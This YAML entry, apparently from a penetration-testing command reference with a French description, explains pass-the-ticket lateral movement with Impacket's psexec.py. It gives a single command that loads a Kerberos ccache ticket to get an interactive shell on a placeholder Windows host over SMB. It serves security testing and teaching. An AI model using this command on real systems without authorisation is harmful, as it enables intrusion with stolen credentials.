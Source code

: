 ```yaml
---
description: |
  Le fichier psexec.py d'Impacket offre des fonctionnalités similaires à celles de psexec. Cela vous donnera un shell interactif sur l'hôte Windows. psexec.py permet également d'utiliser les tickets de service, sauvegardés dans un fichier ccache pour l'authentification. Il peut être obtenu via le fichier GetST.py d'Impacket.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

command: |
  export KRB5CCNAME=/full/path/to/john.ccache; python3 psexec.py test.local/john@10.10.10.1 -k -no-pass
items:
  - TGS
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
  - https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket#pass-the-ticket-attack
---
```

